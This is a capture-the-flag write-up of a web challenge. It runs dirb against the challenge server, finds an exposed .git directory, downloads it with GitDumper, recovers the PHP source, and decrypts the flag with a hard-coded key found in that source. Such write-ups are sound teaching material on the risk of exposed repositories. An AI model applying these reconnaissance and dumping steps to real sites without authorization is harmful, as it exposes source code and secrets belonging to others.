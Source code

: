 # Problem Statement:
![question](https://raw.githubusercontent.com/0x41head/CTF-Writeups/main/src/DOA2021ctf/web/git%20commit%20-m%20whatever/ques.png)

## Solution:
Going to the URL mentioned in the qustion we are greeted with this:
![1](https://raw.githubusercontent.com/0x41head/CTF-Writeups/main/src/DOA2021ctf/web/git%20commit%20-m%20whatever/1.png)

Brute forcing the directory of this webpage we can see that there is a `.git/HEAD` present
```
$ dirb http://193.57.159.27:53329

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Oct 12 15:31:52 2021
URL_BASE: http://193.57.159.27:53329/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://193.57.159.27:53329/ ----
+ http://193.57.159.27:53329/.git/HEAD (CODE:200|SIZE:24) 
```

Searching for this related it to `git` in webpages, I found [GitDumper](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh)

I used it to download all the files in .git folder

```
$ ./gitdumper.sh http://193.57.159.27:53329/.git/ dumped_files
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/27/56250c7cd2188bdf8c4cdeddc92bcbe13f1755
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/c2/c1d8bde15fa2174d6acd1284d7251579b8a1b4
[+] Downloaded: objects/4f/bdfd5fda330754872764810dfa2c1ef46f1bb0
[+] Downloaded: objects/49/79a80a4c88cdbb529b51aa231caff61d9228a0
[+] Downloaded: objects/46/5e79b104f83169a4f95900a6a9f42b34e71892
[+] Downloaded: objects/3a/8a916693a0d0acf0320d287318d9ddd123cbe3
[+] Downloaded: objects/07/2aad170b0a780723ef2c690a3fe4f5e3392830
[+] Downloaded: objects/95/d5d6fbb14df57d143ec73df6dc00807f85b1db
[+] Downloaded: objects/0d/4096f89f4ea65a44c2a4038b6f931c95c5eba4
[+] Downloaded: objects/58/a1261b18cc493ba5be1c4ef8f04d258716e419
[+] Downloaded: objects/93/457a2717c9b3196924f76cdf5e30a3e3e91013
[+] Downloaded: objects/bd/9550631ebc3e52df59fb17ca77a08349f318de
[+] Downloaded: objects/17/6a3e14009956fb5eb865f0d059b2db8ed19c07
[+] Downloaded: objects/3c/ec2498dd9929460a8d0cf37e2b9bc3a3964ef6
[+] Downloaded: objects/a7/a4dd98ca6aea65d8263027d26be7a0ef93c4fe
[+] Downloaded: objects/3d/10547f81124a6c5486d37b9372dbd0c9665b4e
[+] Downloaded: objects/51/d5d44ec34588b8996e059840a2a83b70cfa1f7
[+] Downloaded: objects/7b/64c8f6a27ef08579d3bb8fba5e180784beb177
[+] Downloaded: objects/e3/4b27aa5094d032331bd2ce6a0533c646457edf
[+] Downloaded: objects/64/74726b8271cef222bbc8f15f5929cc11aea50e
[+] Downloaded: objects/2a/a684a04e0d8bfed9ebb53ac339a301021c8910
[+] Downloaded: objects/cf/628a4a35910bb0161801f290a2fa38b1e4a596
[+] Downloaded: objects/98/dcb0ff422cbed170c1f1f620ef912d977cfab0
[+] Downloaded: objects/d0/23c46792e96174ccb9218dfad376aab76f0133
[+] Downloaded: objects/4d/d1a0618effc5117615b7a275b3f0983d7bd8ea
[+] Downloaded: objects/e5/0a9600bd4708631c8bc01b319364afaffab94a
[+] Downloaded: objects/41/036870066f9473b83997a9144d2b56f26482e5
[+] Downloaded: objects/5e/ee568e29ee440e93266d007769f1987ba1dff2
[+] Downloaded: objects/93/a04a076cbfb06378292e5b2f9e21a0960a9d21
[+] Downloaded: objects/12/821190c4f46f8d0fd1efea082e54393d2bced3
[+] Downloaded: objects/fc/1f98f6017e2e49df069cf27917731a3b73bca2
[+] Downloaded: objects/5e/b684e2b3288349df63acc7a51c1b82058c16cb
[+] Downloaded: objects/28/00ea0071c9e01b0967726defc26e451ddf7946
[-] Downloaded: objects/70/14a0eb6d1611151a286c0ff4f2238f92c120d6
[+] Downloaded: objects/5b/e48926566ff0c6ff1b14fe369969054843e31b
[+] Downloaded: objects/9f/ed183bcaa6da1ad6a0b6d46e151cd28553ef1a
```
After checking the reference `master`
```
$  cat .git/refs/heads/master 
2756250c7cd2188bdf8c4cdeddc92bcbe13f1755
```
I saw that it pointed to a commit with the hash `2756250c7cd2188bdf8c4cdeddc92bcbe13f1755`

I tried using `cat` to find a bit more information about it.
```
$ git cat-file -p 2756250c7cd2188bdf8c4cdeddc92bcbe13f1755
tree c2c1d8bde15fa2174d6acd1284d7251579b8a1b4
author elliot <macuser@Macs-MacBook-Air.local> 1633254410 +0530
committer elliot <macuser@Macs-MacBook-Air.local> 1633254410 +0530

Committed security suicide
```
Next, I tried looking more into the `tree` hash and found the hash for the `index.php` file
```
$ git cat-file -p c2c1d8bde15fa2174d6acd1284d7251579b8a1b4
040000 tree 4fbdfd5fda330754872764810dfa2c1ef46f1bb0    Crypt
040000 tree 4979a80a4c88cdbb529b51aa231caff61d9228a0    File
040000 tree 465e79b104f83169a4f95900a6a9f42b34e71892    Math
040000 tree 3a8a916693a0d0acf0320d287318d9ddd123cbe3    Net
040000 tree 072aad170b0a780723ef2c690a3fe4f5e3392830    System
100644 blob 95d5d6fbb14df57d143ec73df6dc00807f85b1db    bootstrap.php
100644 blob 0d4096f89f4ea65a44c2a4038b6f931c95c5eba4    index.php
100644 blob 58a1261b18cc493ba5be1c4ef8f04d258716e419    openssl.cnf
```

Using `cat` on the `index.php` hash gave me the source code of the webpage

```
$ git cat-file -p 0d4096f89f4ea65a44c2a4038b6f931c95c5eba4
<?php

/**
 * Simple sodium crypto class for PHP >= 7.2
 * @author MRK
 */
class crypto {

    /**
     * 
     * @return type
     */
    static public function create_encryption_key() {
        return base64_encode(sodium_crypto_secretbox_keygen());
    }

    /**
     * Encrypt a message
     * 
     * @param string $message - message to encrypt
     * @param string $key - encryption key created using create_encryption_key()
     * @return string
     */
    static function encrypt($message, $key) {
        $key_decoded = base64_decode($key);
        $nonce = random_bytes(
                SODIUM_CRYPTO_SECRETBOX_NONCEBYTES
        );

        $cipher = base64_encode(
                $nonce .
                sodium_crypto_secretbox(
                        $message, $nonce, $key_decoded
                )
        );
        sodium_memzero($message);
        sodium_memzero($key_decoded);
        return $cipher;
    }

    /**
     * Decrypt a message
     * @param string $encrypted - message encrypted with safeEncrypt()
     * @param string $key - key used for encryption
     * @return string
     */
    static function decrypt($encrypted, $key) {
        $decoded = base64_decode($encrypted);
        $key_decoded = base64_decode($key);
        if ($decoded === false) {
            throw new Exception('Decryption error : the encoding failed');
        }
        if (mb_strlen($decoded, '8bit') < (SODIUM_CRYPTO_SECRETBOX_NONCEBYTES + SODIUM_CRYPTO_SECRETBOX_MACBYTES)) {
            throw new Exception('Decryption error : the message was truncated');
        }
        $nonce = mb_substr($decoded, 0, SODIUM_CRYPTO_SECRETBOX_NONCEBYTES, '8bit');
        $ciphertext = mb_substr($decoded, SODIUM_CRYPTO_SECRETBOX_NONCEBYTES, null, '8bit');

        $plain = sodium_crypto_secretbox_open(
                $ciphertext, $nonce, $key_decoded
        );
        if ($plain === false) {
            throw new Exception('Decryption error : the message was tampered with in transit');
        }
        sodium_memzero($ciphertext);
        sodium_memzero($key_decoded);
        return $plain;
    }

}

$privatekey = "mRHpcEckKATdwDC/CwpRinDTiAYrn9lzWpTo277omKs=";

$flag = file_get_contents('../flag.txt');

$enc = crypto::encrypt($flag, $privatekey);

echo $enc;

?>

<html>
    <br>
    Only if you could see the source code.
</html>

```

I could now see that there was an `encrypt` and `decrypt` function in the source along with a `$privatekey`.

Copy pasting this code into my own system and using the `decrypt` function with the `$privatekey` and the encrypted text on the webage we were able to retrieve the flag 
```
crypto::decrypt("8tjVQ5fKbDlkzPk3xX4LQvb6ndFJa+sT/0VnRgAwhTfUFMyYgm/aGJWKV518+p9HH8YT2XpOuz6JiDlBtZBFkzbliEScNvtgnL4Xga0O",$privatekey);
```

### Notes:
### Reference:
https://ctftime.org/writeup/23835

https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/
### Tags:
`Web` `git` 